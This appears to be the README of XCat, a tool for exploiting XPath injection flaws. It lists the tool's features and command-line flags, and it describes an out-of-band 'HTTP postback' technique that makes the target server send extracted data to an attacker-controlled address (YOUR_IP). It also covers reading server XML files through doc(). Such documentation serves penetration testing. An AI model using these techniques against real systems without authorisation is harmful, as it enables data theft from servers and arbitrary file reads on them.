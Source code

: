 XCat
====

XCat is a command line program that aides in the exploitation of XPath injection vulnerabilities.
It boasts a wide range of features and can utilize the more advanced features of the XPath 2.0 specification (pattern matching, unicode normilization and even http requests) or gracefully degrade to using XPath 1.0 if they are not available.

XCat is built to exploit boolean XPath injections (Where only one bit of data can be extracted in one request) and it requires you to manually identifiy the exploit first, this does not do that for you.

Features
--------
* Exploits both GET and POST attacks
* Extracts all nodes, comments, attributes and data from the entire XML document
* One file, two dependancies ([Python 2.7+](http://www.python.org/download/releases/2.7.2/) and [cElementTree](http://effbot.org/downloads/#elementtree))
* Parallel requests (adjustable thread pool size)
* XPath 2.0 supported (with graceful degrading to 1.0)
* [Regex](http://www.w3.org/TR/xpath-functions/#func-matches) pattern matching to reduce character search space
* [Unicode normalization](http://www.w3.org/TR/xpath-functions/#func-normalize-unicode)
* Advanced data postback through HTTP (see below)
* Arbitrarily read XML files on the servers file system via the doc() function (see below)

Usage
-----
	usage: main.py [-h] [--method {GET,POST}] [--arg POST_ARGUMENT]
	               [--true TRUE_KEYWORD] [--false FALSE_KEYWORD]
	               [--max_search SEARCH_LIMIT] [--error ERROR_KEYWORD]
	               [--timeout TIMEOUT] [--threadpool POOLSIZE]
	               [--stepsize STEP_SIZE] [--xversion {1,2,auto}] [--lowercase]
	               [--regex] [--connectback] [--connectbackip CONNECTBACK_IP]
	               [--connectbackport CONNECTBACK_PORT]
	               [--notfoundstring NOTFOUNDCHAR] [--fileshell]
	               URL

### Simple usage with the example application
Check out the [readme](xcat/blob/master/src/example_application/README.md) to try out XCat with the provided example application.

HTTP Postback / doc function
----------------------------
Possibly the most advanced feature of XCat is its 'HTTP postback' feature. The XPath 2.0 schema defines a function called [doc](http://www.w3.org/TR/xpath-functions/#func-doc) which allows the programmer to load external documents from the file system or even from a remote network resource via HTTP/HTTPS. If the doc function is enabled and working then XCat will use it where possible to greatly speed up document retrieval times. It does this by running a small HTTP server within the program which listens on a specified port and by then calling the doc() function with the currently targetted node's data URI encoded and appended to a query. This means the XPath library will make a HTTP request to your IP (requires the port to be forwarded and/or a public IP) in the following format:

	http://YOUR_IP/?q=some%20data%20goes%here

This is far more efficient than iterating over the string character by character and can greatly reduce the retrieval times.

You can (ab)use this function to load XML file on the system, as long as you have read permissions over it, allowing you to retrieve lots of lovely XML configuration files - you can jump into a pseudo-shell within XCat by using the --fileshell flag and enter any file path.
